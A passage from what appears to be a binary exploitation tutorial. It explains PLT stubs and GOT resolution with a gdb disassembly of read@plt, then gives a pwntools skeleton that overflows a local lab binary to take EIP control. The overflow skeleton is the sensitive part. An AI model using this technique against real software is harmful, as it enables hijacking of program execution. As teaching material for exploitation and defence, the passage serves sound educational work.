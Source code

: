 When you use a libc function in your code, the compiler does not directly call that function but calls a PLT stub instead. Let's take a look at the disassembly of the `read` function in PLT.

```
gdb-peda$ disas read
Dump of assembler code for function read@plt:
   0x08048340 <+0>:	jmp    DWORD PTR ds:0x804a00c
   0x08048346 <+6>:	push   0x0
   0x0804834b <+11>:	jmp    0x8048330
End of assembler dump.
gdb-peda$
```

Here's what's going on here when the function is run for the first time:

1. The `read@plt` function is called.
2. Execution reaches `jmp DWORD PTR ds:0x804a00c` and the memory address 0x804a00c is dereferenced and is jumped to. If that value looks familiar, it is. It was the address of the GOT entry of `read`.
3. Since the GOT contained the value 0x08048346 initially, execution jumps to the next instruction of the `read@plt` function because that's where it points to.
4. The dynamic loader is called which overwrites the GOT with the resolved address.
5. Execution continues at the resolved address.

The details of this will be important for the next section but for now, the crucial characteristic of the PLT stub is that it is part of the binary and will be mapped at a static address. Thus, we can use the stub as a target when constructing our exploit.

### Writing the Exploit

As per usual, here is the skeleton code to obtain EIP control of the binary.

```
#!/usr/bin/python

from pwn import *

def main():
    # Start the process
    p = process("../build/1_clock")

    # Print the pid
    raw_input(str(p.proc.pid))

    # Craft the payload
    payload = "A"*76 + p32(0xdeadc0de)
    payload = payload.ljust(96, "\x00")

    # Send the payload
    p.send(payload)

    # Pass interaction to the user
    p.interactive()

if __name__ == "__main__":
    main()
```
